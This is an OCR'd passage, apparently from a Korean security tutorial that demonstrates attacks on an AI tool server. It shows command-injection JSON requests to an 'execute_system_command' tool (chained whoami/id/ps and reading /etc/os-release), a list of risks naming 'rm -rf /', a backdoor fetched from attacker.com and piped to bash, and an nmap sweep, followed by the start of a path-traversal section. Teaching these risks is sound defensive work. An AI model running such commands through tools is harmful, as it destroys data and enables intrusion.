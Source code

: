 #### 🚨 공격 예제 2: 명령어 체이닝
```json
{
  "method": "tools/call",
  "params": {
    "name": "execute_system_command",
    "arguments": {
      "command": "whoami && id && ps aux | head -10"
    }
  }
}
```

#### 🚨 공격 예제 3: 시스템 정보 수집
```json
{
  "method": "tools/call",
  "params": {
    "name": "execute_system_command",
    "arguments": {
      "command": "uname -a; cat /etc/os-release 2>/dev/null || sw_vers"
    }
  }
}
```

### 실제 위험 상황
- 공격자가 `rm -rf /` 같은 파괴적 명령어 실행
- 백도어 설치: `curl http://attacker.com/backdoor.sh | bash`
- 네트워크 스캔: `nmap -sP 192.168.1.0/24`

---

## 2. 🚨 Path Traversal (경로 순회)

### 공격 시나리오
공격자가 웹 애플리케이션의 파일 접근 기능을 악용하여 서버의 민감한 파일에 접근하는 상황입니다.

### 실행 예제

#### ✅ 정상적인 사용
```json
{
  "method": "tools/call",
  "params": {
    "name": "read_file",
    "arguments": {
      "file_path": "README.md"
    }
  }
}
```
